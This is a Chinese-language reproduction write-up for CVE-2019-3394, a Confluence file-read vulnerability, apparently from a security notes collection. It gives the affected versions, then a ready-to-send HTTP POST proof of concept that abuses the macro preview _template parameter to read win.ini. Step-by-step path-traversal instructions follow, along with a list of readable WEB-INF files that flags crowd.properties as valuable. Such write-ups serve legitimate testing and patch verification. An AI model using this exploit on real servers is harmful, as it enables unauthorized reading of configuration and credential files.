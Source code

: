 ```yaml
---
title: （CVE-2019-3394）Confluence 文件读取漏洞
id: zhfly2855
---
```


# （CVE-2019-3394）Confluence 文件读取漏洞

## 一、漏洞简介

> （CVE-2019-3394）Confluence 文件读取漏洞

## 二、影响范围

*   6.1.0 <= version < 6.6.16
*   6.7.0 <= version < 6.13.7
*   6.14.0 <= version < 6.15.8

## 三、复现过程

#### poc

```
POST /rest/tinymce/1/macro/preview  HTTP/1.1
Host: localhost:8090
Content-Length: 175
Accept: text/plain, */*; q=0.01 
Origin: http://localhost:8090
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Content-Type: application/json; charset=UTF-8
Referer: http://localhost:8090/ 
Connection: close `{“contentId”:“1”,“macro”:{“name”:“widget”,“params”: {“url”:“[https://www.viddler.com/v/test",“width”:“1000”,“height”:“1000”,"_templat](https://www.viddler.com/v/test%22,%22width%22:%221000%22,%22height%22:%221000%22,%22_templat) e”:“file:///C:/Windows/win.ini”},“body”:""}}` 
```

#### 触发条件

1.  一个有效的登录账号
2.  该账号具有在空间「添加页面」的权限

#### 复现步骤

1.创建一个空白页

![image](../img/7dec71d3ebc5cc1d83a404a471ffb758.png)

2.插入一张网络图片

![image](../img/3a53e4164bec2ba73b472b1ba08963ab.png)

![image](../img/e701ec80ee32ecca75bca5c846ed7877.png)

> 插入url改为你需要查看的文件，例如 /packages/../web.xml

3.点击发布，抓取报文

4.删除多余url前缀,只留下 `/packages/../web.xml` 并放开报文

![image](../img/26d1dde19ee727d0da357868dd41fdd3.png)

5.查看页面源码确认修改成功

![image](../img/02fa5e59e27458332f59cf591e6aeeb6.png)

6.导出word，并抓包查看

![image](../img/ce79e7a00cbb9860b906cbc0f43ccdd9.png)

![image](../img/f5a083edf54a79b3b71b37b0365a643e.png)

#### 路径说明

由于 `catalina.jar`中的 `org.apache.catalina.webresources.StandardRoot.class`的 getResource方法的 `validate`存在过滤和限制，所以可遍历路径均在 `/WEB-INF`下

可读取的文件大致如下

```
#WEB-INF下
decorators.xml
glue-config.xml
server-config.wsdd
sitemesh.xml
urlrewrite.xml
web.xml
#/WEB-INF/classes下
confluence-filtered-frames.properties
confluence-init.properties
crowd.properties(较为重要)
hash-registry.properties
lgplTemplate.soy
log4j-diagnostic.properties
log4j.properties
logging.properties
mime.types
osuser.xml
seraph-config.xml
seraph-paths.xml
velocity_implicit.vm
velocity.properties 
```